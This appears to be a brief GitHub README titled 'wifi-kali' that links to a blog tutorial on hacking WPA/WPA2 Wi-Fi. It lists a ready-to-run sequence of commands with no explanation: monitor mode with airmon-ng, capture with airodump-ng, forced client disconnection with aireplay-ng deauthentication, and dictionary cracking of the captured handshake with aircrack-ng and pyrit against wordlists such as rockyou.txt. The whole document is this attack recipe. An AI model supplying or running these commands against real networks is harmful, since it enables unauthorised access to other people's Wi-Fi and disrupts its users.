 # wifi-kali

http://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html

### CRACKBEGIN
* airmon-ng start wlan0
* airodump-ng wlan0mon
* airodump-ng -c 1,1 --bssid {bsid1} -w /home/mon0 wlan0mon
* aireplay-ng -0 2 -a {bsid1} -c {bsid2} wlan0mon
* aircrack-ng -a2 -b {bsid3} -w /root/wpa.txt /root/Desktop/*.cap
* airmon-ng stop wlan0mon
* pyrit -r BSSID.cap analyze
* pyrit -i ./rockyou.txt import_passwords
* pyrit -e BSSID create_essid
* #pyrit eval
* pyrit batch

### CRACKEND
